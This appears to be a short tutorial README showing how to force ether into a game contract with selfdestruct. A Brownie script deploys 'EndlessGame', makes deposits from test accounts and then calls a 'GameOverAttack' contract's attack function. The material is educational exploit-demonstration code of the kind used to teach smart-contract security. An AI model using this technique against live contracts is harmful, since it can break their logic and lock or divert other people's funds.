 # Forcing Ether to a Contract with selfDestruct
Basic example of force ether into the contract using self destruct function

```
e = EndlessGame.deploy({'from': accounts[0]})
e.deposit({'from': accounts[1], 'value': 1000000000000000000})
e.deposit({'from': accounts[2], 'value': 1000000000000000000})
e.deposit({'from': accounts[3], 'value': 1000000000000000000})
e.deposit({'from': accounts[4], 'value': 1000000000000000000})
e.deposit({'from': accounts[2], 'value': 1000000000000000000})
e.deposit({'from': accounts[3], 'value': 1000000000000000000})
e.deposit({'from': accounts[4], 'value': 1000000000000000000})
e.deposit({'from': accounts[1], 'value': 1000000000000000000})

a = GameOverAttack.deploy(e.address,{'from': accounts[2]})
a.attack({'from': accounts[2], 'value': 3000000000000000000})
```
